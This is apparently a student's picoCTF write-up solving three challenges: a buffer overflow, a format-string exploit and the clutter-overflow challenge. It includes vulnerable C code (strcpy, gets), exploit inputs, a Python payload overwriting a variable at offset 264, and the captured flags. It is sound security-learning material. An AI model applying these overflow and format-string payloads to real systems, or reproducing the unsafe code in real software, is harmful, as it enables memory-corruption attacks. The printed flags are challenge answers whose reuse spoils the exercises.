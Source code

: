 # 1. buffer overflow 0

## Description
> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:
nc saturn.picoctf.net 53744

## Solution
On reading the source code and getting hints from the name of the challenge, I found that there was a user defined sigsegv_handler(int sig) function that would print the flag if a segmentation fault occured. 

```C
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
The vuln function gave me the clue that the way to cause this error would be by inputting value above the limit 16. On doing so, I was able to obtain the flag.

```bash
pri279-picoctf@webshell:~$ nc saturn.picoctf.net 53744
Input: qqqqqqqqqqqqqqqqqqqqqqqq
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Concepts Learnt:
I got an idea about signal handlers and how to cause buffer overflow to obtain desired output.

***

# 2. format string 0

## Description
> Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 62847

## Solution
On launching the instance, I was able to access a menu driven program that asked me to choose a burger for a customer. It was mentioned that the customer, Patrick, wanted a giant bite. This meant that the option having format specifier %114d which meant an integer of size 114 would be resulted. This was the correct pick. For the second customer, SpongeBob wanted to "break the shop". Hence I picked the Cla%sic_Che%s%steak and it turned out to be the right option. 

```bash
pri279-picoctf@webshell:~$ nc mimas.picoctf.net 57603
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
## Concepts Learnt:
I learnt about different types of format specifiers. 

***

# 3. clutter-overflow

## Description
> Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

## Solution
First I ran the command `nc mars.picoctf.net 31980` on my terminal and tested out an input. Then I downloaded the chall.c file and analysed the code. On doing so, I found the usage of gets() function which means we can cause buffer overflow to result in segmentation fault.
I opened the chall.c file using gdb in the terminal
<img width="1421" height="617" alt="image" src="https://github.com/user-attachments/assets/3119b9db-55dc-47d5-9e5d-3095f64fc392" />
I saw that the code variable having value 0x0 was stored in the rbp register. Then I ran the code using run command and inputted a string 300 bytes long which, as expected, caused segmentation fault.
Now, using a command to find at which location the register is currently in:
```bash
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaa
code == 0x6261616161616169
code != 0xdeadbeef :(

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007c0 in main ()
gef➤  pattern search 0x6261616161616169
[+] Searching for '6961616161616162'/'6261616161616169' with period=8
[+] Found at offset 264 (little-endian search) likely
```
So using Python, I put the payload `(python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | ./chall` and get flag.txt not found, which means I'm almost at the flag.
On piping the payload to `nc mars.picoctf.net 31890`
```bash
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
cat: flag.txt: No such file or directory
priya@DESKTOP-1TEEMJT:/mnt/c/Users/User/Desktop/picoCTF$ (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## References
<https://hugsy.github.io/gef/commands/pattern/>
<https://stackoverflow.com/questions/40299126/>
<https://hugsy.github.io/gef/install/>
***


